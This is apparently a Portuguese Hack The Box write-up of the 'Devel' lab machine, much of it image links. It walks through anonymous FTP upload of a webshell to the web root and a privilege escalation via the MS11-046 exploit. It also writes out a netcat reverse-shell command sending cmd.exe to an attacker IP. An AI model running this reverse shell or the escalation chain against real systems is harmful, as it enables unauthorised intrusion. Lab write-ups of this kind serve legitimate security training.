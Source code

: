 Enumeração de serviços:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229194557.png]]
O nmap indicou que o FTP está aceitando login com usuário anônimo. Ao acessar o FTP percebemos que é raiz do servidor web, então vamos subir um arquivo de teste:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229194818.png]]
Acessamos o arquivo pelo navegador:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229194843.png]]
Deu certo! Vamos então tentar subir uma webshell para o servidor:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229195338.png]]
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229195302.png]]
Conseguimos executar comando, mas vamos melhorar e trazer a shell do host pelo netcat.
Subimos o nc.exe da máquina atacante para a pasta temporária:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229195517.png]]
Vamos executa-lo com o comando:
```powershell
C:\WINDOWS\TEMP\nc.exe 10.10.14.9 1234 -e C:\Windows\system32\cmd.exe
```
E pegamos a shell:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229195644.png]]
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229200113.png]]
Após um tempo de enumeração, identificamos com a ajuda do [Watson](https://github.com/carlospolop/winPE/tree/master/binaries/watson) algumas possíveis vulnerabilidades.
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229205019.png]]
Vamos utilizar a MS11-046 com o exploit: https://www.exploit-db.com/exploits/40564
Ao compilar e executar, escalamos o privilégio:
![[Write-up/Hack The Box/Devel/img/Pasted image 20240229205202.png]]